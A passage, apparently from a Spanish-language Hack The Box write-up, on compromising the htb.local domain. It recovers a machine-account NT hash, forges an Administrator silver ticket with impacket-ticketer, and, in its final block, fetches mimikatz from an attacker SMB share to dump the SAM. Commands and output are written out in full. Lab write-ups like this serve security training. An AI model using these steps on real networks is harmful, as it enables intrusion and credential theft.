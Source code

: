 Dado que la fuerza bruta probablemente requeriría mucho tiempo, utilizaremos crack.sh. Le proporcionaremos nuestro correo y pasaremos nuestro hash en el siguiente formato. Pasados unos minutos, recibiremos un correo de crack.sh con los resultados de la solicitud, donde ha logrado obtener el hash NT con la entrada que enviamos. Podemos confirmar con crackmapexec que el hash NT que recibimos es válido para autenticarnos contra el equipo DEV$ perteneciente al dominio htb.local.

```bash
❯ crackmapexec smb dev.htb.local -u DEV$ -H 01300a3009c7ae1af0ea216ebada48ad
SMB         dev.htb.local   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:htb.local) (signing:False) (SMBv1:True)  
SMB         dev.htb.local   445    DEV              [+] htb.local\DEV$:01300a3009c7ae1af0ea216ebada48ad
```

Para poder suplantar al Administrador mediante un silver ticket, primero necesitamos obtener el SID del dominio. Con el SID y el hash, utilizaremos esta información para crear un nuevo ticket con la herramienta ticketer, destinado al SPN (Service Principal Name) CIFS de DEV, suplantando al Administrador. Posteriormente, exportaremos este ticket para autenticarnos con él.

```bash
❯ impacket-getPac htb.local/bob:Passw0rd1! -targetUser bob | grep SID  
Domain SID: S-1-5-21-4266912945-3985045794-2943778634
❯ impacket-ticketer -nthash 01300a3009c7ae1af0ea216ebada48ad -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -domain htb.local -spn cifs/dev.htb.local Administrator  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache

❯ export KRB5CCNAME=Administrator.ccache
```

A pesar de que crackmapexec confirma la autenticación con el ticket y nos devuelve "Pwn3d!", lamentablemente carecemos de privilegios de escritura en los recursos SMB, lo que nos impide obtener una shell utilizando herramientas como psexec.

```bash
❯ crackmapexec smb dev.htb.local -k --use-kcache
SMB         dev.htb.local   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:htb.local) (signing:False) (SMBv1:True)  
SMB         dev.htb.local   445    DEV              [+] htb.local\ from ccache (Pwn3d!)

❯ crackmapexec smb dev.htb.local -k --use-kcache --shares
SMB         dev.htb.local   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:htb.local) (signing:False) (SMBv1:True)  
SMB         dev.htb.local   445    DEV              [+] htb.local\ from ccache (Pwn3d!)
SMB         dev.htb.local   445    DEV              [+] Enumerated shares
SMB         dev.htb.local   445    DEV              Share           Permissions     Remark
SMB         dev.htb.local   445    DEV              -----           -----------     ------
SMB         dev.htb.local   445    DEV              IPC$                            Remote IPC
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>